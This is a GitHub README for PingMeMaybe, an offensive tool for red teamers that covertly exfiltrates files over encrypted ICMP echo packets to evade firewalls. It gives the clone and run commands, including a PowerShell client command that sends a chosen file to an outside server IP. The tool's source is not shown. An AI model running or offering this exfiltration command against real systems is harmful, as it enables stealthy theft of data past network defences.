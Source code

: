 # PingMeMaybe👻

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](LICENSE) 
![PowerShell](https://img.shields.io/badge/PowerShell-teal?logo=powershell&logoColor=white) 
![Python](https://img.shields.io/badge/Python-yellowgreen?logo=python&logoColor=white)

> **Covert ICMP-based file exfiltration tool**  
> Encrypted file transfer over ICMP echo requests for stealthy data smuggling.

---
## Overview

PingMeMaybe is a stealthy, encrypted file exfiltration tool leveraging ICMP echo request packets (ping) to covertly transmit files between a Windows client (PowerShell) and a server (Python).  
This tool is designed for red teamers and penetration testers who want to simulate data exfiltration via ICMP — a commonly allowed protocol that can bypass many firewall rules.

## Installation

### Server Requirements

- Python 3.7+
- Required Python packages:
  - `cryptography`
  - `rich`

### Download
Clone the repository or download the scripts manually:
```bash
git clone https://github.com/MAXIVA11/PingMeMaybe.git
cd PingMeMaybe
pip install -r requirements.txt
```
 
## Usage

### Server

Run the Python server script with root privileges to listen for incoming ICMP packets:

```bash
sudo python3 server.py
```
On startup, the server will generate and display a random AES-GCM key.
Copy this key exactly as shown — you will need it on the client side.

### Client

Run the PowerShell client script on a Windows machine with the following parameters:

```powershell
.\Invoke-PingMeMaybe.ps1 -Target <Server_IP> -File <Path_to_File> -HexKey <AES-GCM_Key>
```
- **Target**: The IP address of the machine running the server.

- **File**: The full path to the file you want to exfiltrate.

- **HexKey**: The AES-GCM key generated by the server (copy-paste exactly).

### Notes

- PowerShell 7+ is recommended for AES-GCM support; if unavailable, the script falls back to AES-CBC+HMAC encryption.

- Make sure ICMP echo requests are allowed through firewalls on both client and server

## Photos

### Server Console Example
![image](https://github.com/user-attachments/assets/74012396-64f4-4578-9e5b-1d3e5d4cd5bf)


### Client Console Example
![image](https://github.com/user-attachments/assets/16391aa0-d0b7-4a3c-8867-3428b0ca4d01)

---

## Contribution

Contributions, issues, and feature requests are welcome!  
Feel free to check the [issues page](https://github.com/MAXIVA11/PingMeMaybe/issues).
